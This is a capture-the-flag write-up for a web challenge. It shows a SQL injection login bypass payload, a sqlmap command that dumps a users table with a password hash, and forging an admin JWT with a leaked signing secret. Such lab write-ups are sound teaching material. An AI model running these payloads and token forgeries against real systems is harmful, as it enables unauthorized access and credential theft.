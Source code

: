 # This_WEB_Too_Simple Write-up

## Summary

This write-up demonstrates the process of exploiting a web application to gain unauthorized admin access. The strategy involves using a SQL injection (SQLi) to bypass login authentication, extracting a secret key, and then modifying a JWT token to escalate privileges to an admin role.

## Steps

### 1. Discovery of `robots.txt`

The `robots.txt` file, located at the web server's root, contained directives that hinted at potential attack vectors:

```plaintext
User-agent: *
Disallow: /
Disallow: /login
Disallow: /admin
```

### 2. SQL Injection and Login

A SQL injection vulnerability was identified on the login page (`login.html`). The vulnerability is exploited as follows:

#### Manual SQL Injection

By entering a SQL injection payload in the login fields, authentication can be bypassed. For instance:

```sql
' OR '1'='1' --
```

This payload logs in as a non-admin user by bypassing the authentication check.

#### Automated SQL Injection with sqlmap

Alternatively, sqlmap can be used to exploit the vulnerability and extract database information:

```bash
sqlmap -r request.txt --ignore-code=401 -p username -D SQLite_masterdb -T users --dump
```

This command instructs sqlmap to ignore any HTTP 401 unauthorized error codes, target the `username` POST parameter, select the SQLite_masterdb database, list the contents of the `users` table, and dump the data.

After executing the sqlmap command, the structure of the database was retrieved, revealing a table named `users` with columns for `id`, `username`, and `password`. The SQL command used to create the `users` table is:

```
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT NOT NULL,
    password TEXT NOT NULL
)
```

Furthermore, an entry within the `users` table was extracted, indicating the presence of user credentials:

```
Database: <current>
Table: users
[1 entry]
+----+------------------------------------------------------------------+----------+
| id | password                                                         | username |
+----+------------------------------------------------------------------+----------+
| 1  | e606e38b0d8c19b24cf0ee3808183162ea7cd63ff7912dbb22b5e803286b4446 | user     |
+----+------------------------------------------------------------------+----------+
```

### 3. Extracting the Secret Key

Post successful SQLi login, the application reveals a key, which is the secret used for signing JWT tokens. This key can be found in the application's response.

### 4. Modifying the JWT Token

With the secret key, visit [jwt.io](https://jwt.io) and paste the token in the Encoded section. Modify the `role` from non-admin to admin and use the secret key to regenerate a valid signature.

### 5. Accessing the Admin Page

With the modified admin JWT token, send a request to the `/admin` page. The admin page should now be accessible, revealing the flag.
